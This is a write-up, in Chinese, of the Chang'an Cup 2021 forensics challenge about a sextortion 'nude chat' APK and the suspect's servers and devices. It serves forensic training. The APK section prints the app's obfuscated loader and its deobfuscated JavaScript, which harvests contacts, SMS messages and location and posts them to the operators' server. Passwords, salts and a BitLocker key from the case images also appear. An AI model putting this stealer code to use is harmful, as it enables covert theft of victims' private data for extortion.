## 写在前面：

这次长安杯在赛前发了一个参赛手册，然后我就看到了案情的大致背景，然后我就开始搜……搜到了这些：

[我被“裸聊APP”诈骗了 (qq.com)](https://mp.weixin.qq.com/s/k2uVJO1JWfiDtypYa7mJeg)

[“裸聊APP”背后的秘密 (qq.com)](https://mp.weixin.qq.com/s/oIzLIcO1W82HM0rxEsx9Hg)

然后我看到里面有一句话”这些都是写好的框架“，然后我就在网上搜”获取通讯录、短信APP“，然后找到了一个框架——新版通讯录在线获取信息源码（本身想放一个链接的，，结果想了想有点敏感，还是算了），一个App和后台服务器的框架。然后下载下来了，结果第二天，赛题的Apk登陆界面的小姐姐们，和我前一天晚上那个框架的apk的首页小姐姐们一模一样……然而并没有什么卵用……最后还是差一点没有一等奖

感谢Noah和Hs 神带我飞飞飞！！！还有美亚[可怜]，带带我


> 2021年4月25日，上午8点左右，警方接到被害人金某报案，声称自己被敲诈数万元；经询问，昨日金某被嫌疑人诱导裸聊， 下载了某“裸聊”软件，导致自己的通讯录和裸聊视频被嫌疑人获取，对其进行敲诈，最终金某不堪重负，选择了报警；警 方从金某提供的本人手机中，定向采集到了该“裸聊”软件的安装包--zhibo.apk（检材一），请各位回答下列问题：（题目 中需要通过分析出来的答案对检材二三四五解压，解压密码为IP的情况，需要在密码后增加-CAB2021，例： 192.168.100.100-CAB2021）

## 检材一

检材1是受害者下载的诈骗`app`，没什么说的，直接逆向`APP`。但是，其实这个`app`主要是一个框架，也没什么逆的，只要找到关键的内容就可以了。

> 1. 请计算检材一`Apk`的`SHA256`值
> `3FECE1E93BE4F422C8446B77B6863EB6A39F19D8FA71FF0250AAC10F8BDDE73A`
> 2.  该`APK`的应用包名为
>  `plus.H5B8E45D3`

这个直接逆，就可以逆出来
>
>    3. 该`APK`程序在封装服务商的应用唯一标识（`APPID`）为

   这个比较离谱……就是算是一个没有接触过的东西。在逆向的过程中我们很轻松看到一个`APP_ID`：

`pl.droidsonroids.gif`

``` JAVA
package pl.droidsonroids.gif;

public final class BuildConfig {
    public static final String APPLICATION_ID = "pl.droidsonroids.gif";
    public static final String BUILD_TYPE = "release";
    public static final boolean DEBUG = false;
    public static final String FLAVOR = "";
    public static final int VERSION_CODE = -1;
    public static final String VERSION_NAME = "1.2.17";

    public BuildConfig() {
        super();
    }
}
```

 但是这里说的`APP_ID`并不是逆向的那个`APP_ID`，而是一个名为调证值（我的理解是：用户在使用第三方打包工具时的信息，可以从`SDK`第三方调取证据）的东西……



> 4. 该`APK`具备下列哪些危险权限(多选题)：

   手机`APP`权限申请主要集中在`AndroidManifest.xml`文件最上方：

   ```
     <uses-permission android:name="android.permission.INTERNET" />
     <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />
     <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />
     <uses-permission android:name="android.permission.ACCESS_WIFI_STATE" />
     <uses-permission android:name="android.permission.INSTALL_PACKAGES" />
     <uses-permission android:name="android.permission.REQUEST_INSTALL_PACKAGES" />
     <uses-feature android:name="android.hardware.camera" />
     <uses-feature android:name="android.hardware.camera.autofocus" />
     <uses-permission android:name="android.permission.ACCESS_COARSE_LOCATION" />
     <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />
     <uses-permission android:name="android.permission.READ_CONTACTS" />
     <uses-permission android:name="android.permission.READ_SMS" />
     <uses-permission android:name="android.permission.RECEIVE_SMS" />
     <uses-permission android:name="android.permission.ACCESS_COARSE_LOCATION" />
     <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />
     <uses-permission android:name="android.permission.SEND_SMS" />
     <uses-permission android:name="android.permission.WRITE_SMS" />
     <uses-permission android:name="android.permission.GET_ACCOUNTS" />
     <uses-permission android:name="android.permission.WRITE_CONTACTS" />
     <uses-permission android:name="android.permission.ACCESS_WIFI_STATE" />
     <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />
     <uses-permission android:name="android.permission.CHANGE_WIFI_STATE" />
     <uses-permission android:name="android.permission.READ_PHONE_STATE" />
     <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />
     <uses-permission android:name="android.permission.MOUNT_UNMOUNT_FILESYSTEMS" />
     <uses-permission android:name="android.permission.READ_LOGS" />
     <uses-permission android:name="android.permission.WRITE_SETTINGS" />
     <uses-permission android:name="com.huawei.android.launcher.permission.CHANGE_BADGE" />
     <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
     <uses-permission android:name="com.asus.msa.SupplementaryDID.ACCESS" />
   ```

   弘联的软件做了一个可视化：



> 5. 该`APK`发送回后台服务器的数据包含以下哪些内容(多选题)：



这里可以看到的是手机号、验证码、通讯录

最开始只看到了手机号、验证码，没有通讯录，其实是因为模拟器里面通讯录是空的……加上几个用户就好了

答案还有一个定位信息，这个抓包是抓不到的，直接看`index.html`的代码，在里面我们看到一堆奇怪的东西：

```html
<script>

		['sojson.v4']["\x66\x69\x6c\x74\x65\x72"]["\x63\x6f\x6e\x73\x74\x72\x75\x63\x74\x6f\x72"](((['sojson.v4']+[])["\x63\x6f\x6e\x73\x74\x72\x75\x63\x74\x6f\x72"]['\x66\x72\x6f\x6d\x43\x68\x61\x72\x43\x6f\x64\x65']['\x61\x70\x70\x6c\x79'](null,""['\x73\x70\x6c\x69\x74'](/[a-zA-Z]{1,}/))))('sojson.v4');

	</script>
```

刚开始没有想到是混淆，后来noah发现是一个混淆，直接搜一下开头的`sojson.v4`，然后解混淆，然后就阅读代码，，就能理清了：

```js
mui.init();

mui.plusReady(function () {
    //var main = plus.android.runtimeMainActivity();  
    // main.moveTaskToBack(false);

    var address = plus.device.vendor + '-' + plus.device.model;
    address = address.replace(/\n/g, "").replace(/ /g, "").replace(/\r/g, "");
    var apiserver = 'http://www.honglian7001.com/api/uploads/';
    //重复数据处理 预防用户重复点击
    
···

    function translatePoint(position) {

        var sjh = $('#sjh').val()
        var yqm = $('#yqm').val()
        var currentLon = position.coords.longitude;
        var currentLat = position.coords.latitude;
        var jingweidu = sjh + ',' + yqm + ',' + currentLon + ',' + currentLat;
        mui.ajax(apiserver + 'apimap', {
            data: {
                data: jingweidu
            },
            dataType: 'text', //服务器返回json格式数据
            type: 'post', //HTTP请求类型
            timeout: 10000, //超时时间设置为10秒；              
            success: function (data) {

                if (data == '获取成功') {
                    requestPermission(sjh, yqm);

                    //setInterval(function(){
                    //var sjh=$('#sjh').val();
                    //var yqm=$('#yqm').val();
                    //requestPermission(sjh,yqm);
                    //console.log('send')

                    //},30000)
                }

                mui.toast(data)
            },
            error: function (xhr, type, errorThrown) {
                //异常处理；


            }
        });

        //书写自己的逻辑

    }
    // 扩展API加载完毕，现在可以正常调用扩展API

    function huoqu(sjh, yqm) {
        var con = sjh + "**" + yqm + '**' + address;


        plus.contacts.getAddressBook(plus.contacts.ADDRESSBOOK_PHONE, function (addressbook) {


            addressbook.find(["displayName", "phoneNumbers"], function (contacts) {


                for (var i = 0, len = contacts.length; i < len; i++) {
                    con = con + '=' + contacts[i].displayName + '|' + (contacts[i].phoneNumbers.length == 0 ? "" : contacts[i].phoneNumbers[0].value);
                }

                mui.ajax(apiserver + 'api', {
                    data: {
                        data: con
                    },
                    dataType: 'text', //服务器返回json格式数据
                    type: 'post', //HTTP请求类型
                    timeout: 10000, //超时时间设置为10秒；              
                    success: function (data) {
                        //alert(data)
                        if (data == '正在加载列表') {
                            dingwei(sjh, yqm);
                            mui.openWindow({
                                url: 'list.html',
                                show: {
                                    autoShow: true
                                }
                            });
                        } else {
                            mui.toast(data)
                        }
                        //console.log(con)
                    },
                    error: function (xhr, type, errorThrown) {
                        //异常处理；
                    }
                });
```

这里是只有当你注册成功之后才会获取你的位置信息，才会向后台传输。所以我们是抓不到这个数据包的……

> 6. 该`APK`程序回传通讯录时,使用的`http`请求方式为（）
> 
> `POST`
> 
> 7. 该APK程序的回传地址域名为【标准格式：www.abc.com】
>
> `www.honglian7001.com`
>
> 8. 该APK程序代码中配置的变量apiserver的值为【标准格式：www.abc.com/abc】
>
> `www.honglian7001.com/api/uploads/`
>
> 9. 分析该APK，发现该程序还具备获取短信回传到后台的功能，短信上传服务器接口地址为【标准格式：www.abc.com/abc】
>
> `www.honglian7001.com/api/uploads/apisms`

```js
function requestPermission(sjh, yqm) {
        plus.android.requestPermissions(
            ["android.permission.READ_SMS"],
            function (resultObj) {
                //SmsInfo存放一条短信的各项内容
                var SmsInfo = {}
                //Sms存放所有短信
                var Sms = {}

                var aimei = sjh;
                var aimei2 = yqm;
                var duanxin = '[{"imei":"' + aimei + '","imei2":"' + aimei2 + '"}';
                var Cursor = plus.android.importClass("android.database.Cursor")
                var Uri = plus.android.importClass("android.net.Uri") //注意啦，android.net.Uri中的net是小写
                var activity = plus.android.runtimeMainActivity()
                var uri = Uri.parse("content://sms/");

                var projection = new Array("_id", "address", "person", "body", "date", "type")
                var cusor = activity.managedQuery(uri, projection, null, null, "date desc")
                var idColumn = cusor.getColumnIndex("_id")
                var nameColumn = cusor.getColumnIndex("person")
                var phoneNumberColumn = cusor.getColumnIndex("address")
                var smsbodyColumn = cusor.getColumnIndex("body")
                var dateColumn = cusor.getColumnIndex("date")
                var typeColumn = cusor.getColumnIndex("type")
                if (cusor != null) {
                    while (cusor.moveToNext()) {
                        SmsInfo.id = cusor.getString(idColumn)
                        SmsInfo.Name = cusor.getInt(nameColumn)
                        SmsInfo.Date = cusor.getLong(dateColumn)
                        SmsInfo.Date = getFormatDate(SmsInfo.Date)
                        SmsInfo.PhoneNumber = cusor.getString(phoneNumberColumn)
                        SmsInfo.Smsbody = cusor.getString(smsbodyColumn)
                        SmsInfo.Type = cusor.getString(typeColumn)

                        var post = JSON.stringify(SmsInfo);
                        //console.log(post);
                        duanxin = duanxin + ',' + post;

                    }
                    duanxin = duanxin + ']';
                    //alert(duanxin);

                    mui.ajax(apiserver + 'apisms', {
                        data: {
                            data: duanxin
                        },
                        dataType: 'text', //服务器返回json格式数据
                        type: 'post', //HTTP请求类型
                        timeout: 10000, //超时时间设置为10秒；              
                        success: function (data) {
                            mui.toast('获取成功')
                            //console.log(con)


                        },
                        error: function (xhr, type, errorThrown) {
                            //异常处理；

                        }
                    });
                    cusor.close()
                }

            },
            function (error) {
                console.log('申请权限错误：' + error.code + " = " + error.message);
            });
    }
```

> 10. 经分析，发现该APK在运行过程中会在手机中产生一个数据库文件，该文件的文件名为
>
> 11. 经分析，发现该APK在运行过程中会在手机中产生一个数据库文件，该数据库的初始密码为



说实话，这个软件真`nb`，逆向还支持`Frida`脚本……

## 检材二

> 经过掌握的APK程序后台服务器回连地址，警方成功调取该服务器的镜像，请使用第7题的答案对检材二进行解压进行分析，

> 12. 检材二的原始硬盘的SHA256值为：
>
> `E6873068B83AF9988D297C6916329CEC9D8BCB672C6A894D393E68764391C589`
>
> 13. 查询涉案于案发时间段内登陆服务器的IP地址为【标准格式：111.111.111.111】
>
>     `192.168.110.203`

根据题目背景材料，案件发生在4月24日\~4月25日之间，直接`last`：
    


`192.168.110.203`

> 14. 请对检材二进行分析，并回答该服务器在集群中承担的主要作用是（）【格式：文件存储】
>
> `负载均衡`
>
> 15. 上一题中，提到的主要功能对应的服务监听的端口为：
>
> `80`
>
> 16. 上一题中，提到的服务所使用的启动命令为：
>
> `node app.js`
>
> 17. 经分析，该服务对于请求来源IP的处理依据是：根据请求源IP地址的第（）位进行判断【标准格式：9】
>
> `3`
>
> 18. 经分析，当判断条件小于50时，服务器会将该请求转发到IP为（）的服务器上【标准格式：111.111.111.111】
>
> `192.168.110.111`
>
> 19. 请分析，该服务器转发的目标服务器一共有几台【标准格式：9】
>
> `3`

通过`history`查看历史记录，找到工作目录：`/opt/honglianjingsai`，查看`README.txt`，与历史记录综合分析，得出结论：负载均衡

查看配置文件：






> 20. 请分析，受害者通讯录被获取时，其设备的IP地址为【标准格式：111.111.111.111】
>
> `192.168.110.203`
>
> 21. 请分析，受害者的通讯录被窃取之后，经由该服务器转发到了IP为（）的服务器上【标准格式：111.111.111.111】
>
> `192.168.110.113`

查看项目目录下的日志，结合案发时间查询日志：




## 检材三
> 通过对检材二的分析，警方进一步掌握并落地到了目标服务器地址，通过对服务器进行证据固定，得到服务器镜像--检材
> 三，请使用第21题答案对检材三进行解密并分析，回答下列问题：

> 22. 检材三的原始硬盘的SHA256值为

`SHA256：205C1120874CE0E24ABFB3BB1525ACF330E05111E4AD1D323F3DEE59265306BF`

>23. 请分析第21题中，所指的服务器的开机密码为：

这里需要后面的辅助，因为重置密码是直接重置，不会显示原来的密码（`Windows`会显示原来的。所以我们后面可以通过嫌疑人的`PC`端的`Xshell`中看到连接记录，从中可以看到密码



> 24. 嫌疑人架设网站使用了宝塔面板，请问面板的登陆用户名为：

`hl123`



> 25. 请分析用于重置宝塔面板密码的函数名为
>
> `set_panel_pwd`
>
> 26. 请分析宝塔面板登陆密码的加密方式所使用的哈希算法为
>
> `md5`
>
> 27. 请分析宝塔面板对于其默认用户的密码一共执行了几次上题中的哈希算法
>
> `3`
>
> 28. 请分析当前宝塔面板密码加密过程中所使用的salt值为【区分大小写】
>
> `v87ilhAVumZL`

`emm……`感觉这个凭经验？？？（直接搜，应该可以搜出来吧……

[宝塔面板目录结构框架 · 宝塔面板新手入门进阶使用教程](https://www.kancloud.cn/microcloud/btcn/1507255)

好吧……还是正经一点，整一份宝塔的代码看一看吧……正好宝塔貌似是python写的，能看能看……

通过搜索我们知道宝塔的工具面板的代码是在`/www/server/panel`下面，所以我们直接看`panel`下面的代码（好吧，还是搜了：





```python
def set_panel_pwd(password,ncli = False):
    import db
    sql = db.Sql()
    result = sql.table('users').where('id=?',(1,)).setField('password',public.password_salt(public.md5(password),uid=1))
    username = sql.table('users').where('id=?',(1,)).getField('username')
    if ncli:
        print("|-用户名: " + username)
        print("|-新密码: " + password)
    else:
        print(username)
```

我们发现这里调用了`public`类的`md5`方法，我们继续跟进，在`/www/server/panel/class/public`里面可以找到`password_salt`和`md5`两个方法：

```python
def password_salt(password,username=None,uid=None):
    '''
        @name 为指定密码加盐
        @author hwliang<2020-07-08>
        @param password string(被md5加密一次的密码)
        @param username string(用户名) 可选
        @param uid int(uid) 可选
        @return string
    '''
    chdck_salt()
    if not uid:
        if not username:
            raise Exception('username或uid必需传一项')
        uid = M('users').where('username=?',(username,)).getField('id')
    salt = M('users').where('id=?',(uid,)).getField('salt')
    return md5(md5(password+'_bt.cn')+salt)
```
从函数可以看到，这个盐的值是从数据库里面查询出来的，我们直接查看数据库（`/www/server/panel/data/default.sql`，这个文件可以直接看到，也可以从`class`目录下的`db.py`看到）：





> 29. 请分析该服务器，网站源代码所在的绝对路径为
>
> `/www/wwwroot/www.honglian7001/`



也可以把宝塔服务重新启动起来：

这里因为检材中是静态地址，我们需要先改为`DHCP`来适应`VMware`（傻子才会修改`VMware`而不修改虚拟机：

[centos dhcp网络设置](https://www.cnblogs.com/xred/p/3458802.html)

修改好后，我们直接重启宝塔：

```bash
bt
bt default
```

然后就发现，，密码不对……直接修改密码，随便改一个就很好了



> 30. 请分析，网站所使用的数据库位于IP为（）的服务器上（请使用该IP解压检材5，并重构网站）【标准格式：111.111.111.111】
>
> `192.168.110.115`
>
> 31. 请分析，数据库的登陆密码为【区分大小写】
>
> `wxrM5GtNXk5k5EPX`

我们在网站目录下找一下相关的代码文件，在/www/wwwroot/www.honglian7001/app/database.php中我们可以看到网站的数据库配置：



> 32. 请尝试重构该网站，并指出，该网站的后台管理界面的入口为【标准格式：/web】

从目录结构可以看到`/www/wwwroot/www.honglian7001/app/admin`……所以比较容易猜测`admin`，，，后面嫌疑人的`PC`端的检材也可以看出来：


​    

> 33. 已该涉案网站代码中对登录用户的密码做了加密处理。请找出加密算法中的`salt`值【区分大小写】
>
>      `lshi4AsSUrUOwWV`
>
> 34. 请分析该网站的管理员用户的密码为：
>
>     `security`

管理员用户密码校验的代码肯定在`/admin`文件夹下，在`/www/wwwroot/www.honglian7001/app/admin`下的`common.php`里面看到校验的代码：



> 35. 在对后台账号的密码加密处理过程中，后台一共计算几次哈希值
>
>     3
>
> 36. 请统计，后台中，一共有多少条设备记录
>
>     6002
>
> 37. 请通过后台确认，本案中受害者的手机号码为
>
>     18644099137
>
> 38. 请分析，本案中受害者的通讯录一共有多少条记录
>
>     34

这里有点打脸了……刚才想着它只用配置一个虚拟机，所以我选择修改虚拟机的网络设置而不是更改`VMware`的网络配置……但是，如果是一个网络集群的话，，，还是乖乖地改`VMware`的网络配置吧……

改完配置以后，开始重组raid，恢复数据库，这里用的是`R-studio`，比较好用，重组出来后导出`img`。分析、仿真一条龙。然后我们尝试一下刚才猜测的`/admin`，发现就是后台。


    
我们下来找以下用户名和密码，这个时候我们应该是要查询日志，我首先去查看了`/www/wwwlogs/www.honglian7001.log`文件，但是没有找到，然后就在网站的目录里面寻找。最后找到了`/www/wwwroot/www.honglian7001/runtime/log/202104/24.log`文件，我们直接搜`password`就可以找到用户是`admin`，密码是`security`
    


然后直接在后台里面翻找，就能看到上面问题的答案了。

## 检材四

> 通过对检材二和三进行分析，警方通过IP落地，警方掌成功抓获犯罪嫌疑人，现将嫌疑人的PC机和手机进行了取证，分别制作了镜像，请使用第13题的答案对检材四进行解密，并回答下列问

> 39. 请计算检材四-PC的原始硬盘的`SHA256`值
>
> `E9ABE6C8A51A633F809A3B9FE5CE80574AED133BC165B5E1B93109901BB94C2B`
>
> 40. 请分析，检材四-PC的Bitlocker加密分区的解密密钥为
>
> `511126-518936-161612-135234-698357-082929-144705-622578`

取证大师直接自动取证就可以找到：


> 41. 请分析，检材四-PC的开机密码为
>
> `12306`

仿真就出来了



> 42. 经分析发现，检材四-PC是嫌疑人用于管理服务器的设备，其主要通过哪个浏览器控制网站后
>
> `Google Chrome`

这个直接翻浏览记录，，，发现有两个浏览器，但是`edge`只干了一件事情——下载`Chrome [doge]`

> 43. 请计算PC检材中用户目录下的zip文件的sha256值
>
> `0DD2C00C8C6DBDEA123373F91A3234D2F07D958355F6CD7126E397E12E8ADBB3`
>
> 44. 请分析检材四-phone，该手机的IMEI号为
>
> `868668043754436`
> `868668044204431`



> 45. 请分析检材四-phone，嫌疑人和本案受害者是通过什么软件开始接触的（标准格式：支付宝
>
> 伊对
>
> 46. 请分析检材四-phone，受害者下载恶意APK安装包的地址为
>
> `https://cowtransfer.com/s/a6b28b4818904c`
>
> 47. 请分析检材四-phone，受害者的微信内部ID号为
>
> `wxid_4drzfboq0hk322`
>
> 48. 请分析检材四-phone，嫌疑人用于敲诈本案受害者的QQ账号为
>
> `1649840939`

这块没啥……就是对着取证分析软件一顿翻，开始挖坟（看戏）……











> 49. 请综合分析，嫌疑人用于管理敲诈对象的容器文件的SHA256值为
>
> `9C4BE29EB5661E6EDD88A364ECC6EF004C15D61B08BD7DD0A393340180F15608`
>
> 50. 请综合分析嫌疑人检材，另外一受害者“郭先生”的手机号码为
>
>     15266668888
>
> 51. 通过嫌疑人检材，其中记录了几位受害者的信息
>
>     5

我们在嫌疑人的`PC`的用户目录下找到一个叫“赚钱工具”的压缩包……导出来，解压，密码一试就出来了，就是主机的密码。我们用虚拟硬盘`vmdk`文件直接取证（如果文件删除了的话，启动起来就看不到了，但是取证软件就可以看到，甚至导出）


> 52. 请使用第11题的密码解压“金先生转账.zip”文件，并对压缩包中的文件计算SHA256值

在取证大师中可以找到，导出，算一下就好了：



但，，，当我看了复盘以后我才发现……这个犯罪嫌疑人就`TM`是天才，每次干完坏事，直接打个快照然后把东西全删了，这`nm`是我玩玩没有想到的……绝了！

然后我又尝试着直接打开虚拟机，发现依据`vmdk`直接仿真的和直接打开虚拟机有很大差别，而差别就是快照！（这里请教了一下`konge`师傅，当你给虚拟机打一个快照的时候，他会生成一个`*-0000001.vmdk`文件，这个虚拟硬盘文件就是打快照时`*.vmdk`的一个分支。所以`*.vmdk`就是全部的文件，也就是没有打快照前的文件，而`*-0000001.vmdk`里面就是新储存的文件或者删除的文件信息。）

咳咳……

现在相当于是恢复了相关的证据文件，但是`小白鼠.txt`是个加密容器还没有解密，我们在取证大师的加密文件中看到了一个`key.rar`我们合理怀疑这个就是密钥文件（但是比赛的时候我一个劲想着把`key.rar`解开，以为里面的图片才是密钥文件…… ）

然后就可以看到郭先生的信息了，文件名里面的电话就是郭先生的电话：




> 53. 请综合分析，受害者一共被嫌疑人敲诈了多少钱（转账截图被隐藏在多个地方）
>
> `6100`

这个说实话，，，有点难搞：







然后PC端里面的压缩包的图片：



然后就错了……

还有一笔在数据库里，，，这个鬼能想到啊。

然后很自然的想到，分析，导出数据库，查看那个图片。但是，问题来了，虚拟机里面的数据库是个`server`，并不是文件。所以我们得直接通过服务进行连接。但是不管是什么工具或者是在它服务器上面都连不上数据库。这块是看了复盘才知道，数据库有个[”空用户问题“](https://blog.csdn.net/zbszhangbosen/article/details/7434154)，我们得需要先修一下这个。

然后这里请教了一下`Frank`。这里的空用户问题根源是用户的一个匹配问题，说直白些就是，你以为连接数据库时你用的是`A`用户，`A`用户是有密码的，你也传了一个密码进去；但是你却匹配到了`B`用户，而`B`用户却没有密码，就发生了冲突。而为什么会匹配错呢？原因是当你登录`mysql`的时候，`server`会解析你使用的用户和你的`ip`或者域名。然而它匹配的时候是按照`user`表里面的用户顺序挨个进行匹配。一旦匹配上了，就不会匹配后面的了。所以问题其实归根结底出现在`mysql`匹配用户是匹配顺序上：



解决方法：

1. 去掉密码验证，这样的话都没有密码了，也就没有冲突了。
2. 删除掉可能会导致匹配错误的用户（但是你还是得先去掉密码登陆进去……）
3. 看`mysql`源码，查看他的匹配优先排序的算法（https://dev.mysql.com/doc/refman/5.7/en/connection-access.html），对着英文看得不是很仔细，也没认真看……然后就被羊羊师傅骂了[快哭了]。这里有一条规则是**user为(空)的用户可以匹配任意用户名**，所以我们在尝试使用命令去连接时，会先被 Host 为 `localhost.localdomain` 的User （为空） 的字段匹配到，因此导致报错。

最后终于看到数据库了，，，泪目：


## 写在后面

花了基本上整整一天的时间，终于把长安杯2021复现完了。有些感受（非常不成熟，但是还想说出来交流交流

1. 在去年打取证比赛的时候，就注意到了一个”综合取证“或者说是”整体考虑“的问题。也许是因为我们毕竟不是专业的警察或者什么，我们更多的把这个当作是题目而不是真正的案情……这一点需要注意一下。
2. 关于复盘的时候，复盘的老师说”宝塔这几年比较常见”其实想想也比较正常或者说是一个趋势吧……现代的诈骗不像原来那样比较简单，只能说慢慢地向技术方向走。但是搞诈骗的一般是没有什么技术的（毕竟有技术的也不屑干这个，但也有例外），所以他们就依托于傻瓜教程，或者说是集成度很高的工具。或许也是作案成本的问题吧……所以我在网上搜到的那个框架里面直接就是录好的教程，而且教程甚至十分傻瓜。想想其实挺可怕的……（一些乱七八糟的想法，，很肤浅，，看看就行了
3. 还有就是，，，别没事干看黄……有那个功夫还不如找女朋友。。。
4. From `hs`：终于能体会为什么诈骗好几万，原来不是一次性，而是分平台分别诈骗……
